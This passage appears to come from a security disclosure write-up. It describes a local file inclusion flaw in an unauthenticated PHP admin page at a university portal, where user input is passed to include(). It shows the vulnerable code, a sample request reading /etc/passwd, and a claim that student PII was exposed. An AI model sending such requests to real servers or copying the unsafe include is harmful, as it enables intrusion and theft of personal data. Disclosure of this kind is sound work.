 ```php
<body>
<div id="outer">
  <div id="header">
    <?php include "header.php" ?>
  </div>
  <div id="content">
    <?php include $_GET['view'] ?>
    <div class="clear"></div>
  </div>
  <?php include "footer.php" ?>
</div>
</body>
```


This file was part of the admin portal, yet it was accessible without any authentication.


In PHP, the `include` expression includes and evaluates the specified file.


As the value of the view parameter was taken **directly from the user-controlled `$_GET` input**, an external attacker would be able to **load local files from the server**.


```mermaid
sequenceDiagram
    autonumber
    participant C as Attacker
    participant S as UPM Server


    C->>S: GET /layout.php?view=/etc/passwd
    activate S
    S->>S: include $_GET["view"] → retrieve /etc/passwd
    S-->>C: 200 OK<br/>...<br/>root:x:0:0:root:/root:/bin/bash<br/>...
    deactivate S
```


**Sensitive files with PII of hundreds of students** were accessible, leaking names, national IDs, enrollment numbers, and more information dating back to 2016:

